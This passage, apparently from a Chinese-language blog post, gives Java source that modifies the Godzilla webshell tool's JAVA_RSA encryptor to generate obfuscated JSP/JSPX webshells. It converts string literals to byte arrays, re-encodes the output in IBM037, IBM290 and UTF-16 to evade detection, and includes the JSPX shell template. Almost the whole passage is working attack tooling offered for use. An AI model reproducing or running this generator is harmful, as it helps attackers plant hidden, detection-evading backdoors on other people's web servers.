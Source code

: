     //字符串转为表达式public static Expression parseExpression(String expression) {     return StaticJavaParser.parseExpression(expression); }  
    //将原始字符串转换为以new String(new byte[]{字符串的byte形式})的格式来替换public static void convertStringsToByteArrays(CompilationUnit cu) {     cu.findAll(StringLiteralExpr.class).forEach(stringLiteral -> {         String value = stringLiteral.getValue();         String bytes = convertStringToBytes(value);         if (!bytes.isEmpty()) {             // 创建一个新的 Expression 对象，表示 new String(new byte[]{...})             Expression byteArrayExpr = parseExpression("new String(new byte[] {" + bytes + "})");             // 将原始字符串节点替换为新的表达式节点             stringLiteral.replace(byteArrayExpr);         }     }); }  
    //字符串转为byte的形式 public static String convertStringToBytes(String str) {     StringBuilder bytes = new StringBuilder();     for (char c : str.toCharArray()) {         if (bytes.length() > 0) {             bytes.append(", ");         }         bytes.append((int) c);     }     return bytes.toString(); }     

9Godzilla中JAVA_RSA加密器的生成木马逻辑代码修改

 也就是将第2点提到的功能应用到Godzilla中JAVA_RSA加密器的生成木马逻辑中（代码逻辑比较简陋粗糙）

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    //修改后的JAVA_RSA加密器的Generate类的代码如下：package shells.cryptions.JavaRSA;import core.ApplicationContext;import core.ui.component.dialog.GOptionPane;import java.io.InputStream;import util.Log;import util.functions;  
      
    class Generate{private static final String[] SUFFIX = new String[] { "jsp","jsp_obf","jsp_unicode", "tomcat_jsp_IBM037","tomcat_jsp_IBM290","tomcat_jsp_UTF_16BE","tomcat_jsp_UTF_16LE","jspx","jspx_unicode","jspx_double_ibm037" };Generate() {}public static byte[] GenerateShellLoder(String shellName, String pass, String secretKey, boolean isBin) throws Exception { byte[] data = null; String temp_suffix = ""; try {   InputStream inputStream = Generate.class.getResourceAsStream("template/" + shellName + "raw" + "GlobalCode_new.bin");   String globalCode = new String(functions.readInputStream(inputStream));   inputStream.close();   globalCode = globalCode.replace("{pass}", pass).replace("{secretKey}", secretKey);   inputStream = Generate.class.getResourceAsStream("template/" + shellName + "raw" + "Code_new.bin");   String code = new String(functions.readInputStream(inputStream));   inputStream.close();   Object selectedValue = GOptionPane.showInputDialog(null, "suffix", "selected suffix", 1, null, (Object[])SUFFIX, null);   if (selectedValue != null) {     String suffix = (String)selectedValue;     //temp_suffix用于调用指定插件方法     temp_suffix = suffix;     if (suffix.contains("tomcat_jsp_")||suffix.contains("jsp_obf")){suffix = "jsp_obf";}else if(suffix.contains("jsp_")){suffix = "jsp";}else if(suffix.contains("jspx")){suffix="jspx";}     inputStream = Generate.class.getResourceAsStream("template/shell." + suffix);     String template = new String(functions.readInputStream(inputStream));     inputStream.close();     if (ApplicationContext.isGodMode()) {       template = template.replace("{globalCode}", functions.stringToUnicode(globalCode)).replace("{code}", functions.stringToUnicode(code));     }else if(temp_suffix=="jsp_unicode"||temp_suffix=="jspx_unicode"){       template = template.replace("{globalCode}", functions.stringToUnicode(globalCode)).replace("{code}", functions.stringToUnicode(code));     } else {       //如果选择为jspx格式的马子并且需要马子的原始代码，则需要对<>&符号进行处理，以使得马子能正常运行       if(template.contains("declaration")&&temp_suffix=="jspx"){         globalCode = globalCode.replace("&","&amp;").replace("<", "&lt;").replace(">", "&gt;");         code = code.replace("&","&amp;").replace("<", "&lt;").replace(">", "&gt;");       }       template = template.replace("{globalCode}", globalCode).replace("{code}", code);     }//到这里，完成模版与代码块的结合     if(temp_suffix.contains("jsp_obf")){       template = shells.encoder.java.another_encode.string_do_obf(template);     }     data = template.getBytes();   } } catch (Exception e) {   Log.error(e); } //第一个if专门用于混淆jsp的代码，只要不为空就进入。比如temp_suffix即使为jspx也进入，因为它无法进入到下面的switch case中 if(temp_suffix!=""){   switch(temp_suffix) {     case "tomcat_jsp_IBM037":       data = shells.encoder.java.jspencounter.tomcat_jsp_IBM037(data);       break;     case "tomcat_jsp_IBM290":       data = shells.encoder.java.jspencounter.tomcat_jsp_IBM290(data);       break;     case "tomcat_jsp_UTF_16BE":       data = shells.encoder.java.jspencounter.tomcat_jsp_UTF_16BE(data);       break;     case "tomcat_jsp_UTF_16LE":       data = shells.encoder.java.jspencounter.tomcat_jsp_UTF_16LE(data);       break;     case "jspx_double_ibm037":       data = shells.encoder.java.jspencounter.jspx_doubule_ibm037(data);       break;   } } return data;}  
    public static byte[] GenerateShellLoder(String pass, String secretKey, boolean isBin) throws Exception { return GenerateShellLoder("", pass, secretKey, isBin);}}  
    //shell.jsp_obf文件的内容即：jspx格式的模板<jsp:root xmlns:jsp="[http://java.sun.com/JSP/Page"](http://java.sun.com/JSP/Page") version="1.2"><jsp:declaration>{globalCode}</jsp:declaration><jsp:scriptlet>{code}</jsp:scriptlet><jsp:text></jsp:text></jsp:root>

